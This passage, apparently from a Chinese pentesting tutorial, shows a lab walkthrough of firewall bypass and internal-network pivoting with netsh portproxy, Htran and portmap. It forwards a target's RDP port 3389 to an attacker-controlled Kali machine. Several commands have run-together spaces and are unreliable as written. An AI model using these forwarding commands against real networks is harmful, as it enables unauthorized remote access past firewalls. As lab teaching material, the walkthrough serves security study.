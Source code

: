 netsh interfaceportproxydump

删除转发规则：

netsh interfaceportproxydeletev4tov4listenport=7777

**4****、****HTran**

**4.1** **绕过防火墙**

将本地 3389 端口转发到 7777 端口：Htran.exe -tran 7777 127.0.0.1 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9Kv8pwfWbW5hNh1ibc7FFYYF9KfuLUGDPeia8sBtFUPM71OTjIjN4cz3Q/640?wx_fmt=png)

使用 kali 成功连接：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9nRmaVaemExh8t2UaZPxaaCvc3GxjnicmVPoy1cwdtefCr5cnRegEK1g/640?wx_fmt=png)

**4.2** **将本地端口转发到服务器端口**

靶机：Htran.exe -slave 192.168.111.128 6666127.0.0.1 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9wmaQTCM5gFrjJib3pl8yvkNw0TlguAs4dWuichtx9yWab4OkCicaCSG7g/640?wx_fmt=png)

服务器：/portmap -m 2 -p1 6666 -p2 5555

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9KrpMic79ChuHHEmYbSQ72Gv8nicibVYW20u6cvcjKG6SVUOds1hYCj7xA/640?wx_fmt=png)

成功访问 3389：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9dVwk6EbIFRKEgicYMuib6MniczGjZ1qDFQ9PuxH1PPkHIDsCY9ibDuEsLw/640?wx_fmt=png)

**4.3** **转发内网端口**

**4.3.1** **方法一：**

靶机：HTran.exe -tran 6666 192.168.1.2 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9cCHQfkeOBIZlRzXasOjqYM7T3lrU4HYr9MXqM7fumRQpQc4WicA6kRg/640?wx_fmt=png)

攻击机：rdesktop 192.168.111.132:6666

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9ZSbvXdUibxjHgQKZ6B44N3cia1nGVHXx9wmAGYQbpkF8O8giaydJM8ejw/640?wx_fmt=png)

Htran 整体的使用和 lcx 差异不大

**4.3.3** **方法二（比较麻烦）：**

攻击机开启监听：HTran.exe -listen 7777 9999

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9eOVI33vicbb1ib22hgKoLVqMfW8lho1HCtgOViaD3j6r4KTpaNI8ngd7w/640?wx_fmt=png)

靶机：HTran.exe -slave 192.168.111.1 7777127.0.0.1 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9oByQmHjZ7T2c87QV69xPf1wSG8w7xKsJfMYXou6MYUfM2RlzMqhyOg/640?wx_fmt=png)

我们用 kali 连接攻击机的 9999 端口：rdesktop 192.168.111.1:9999  
成功连接：
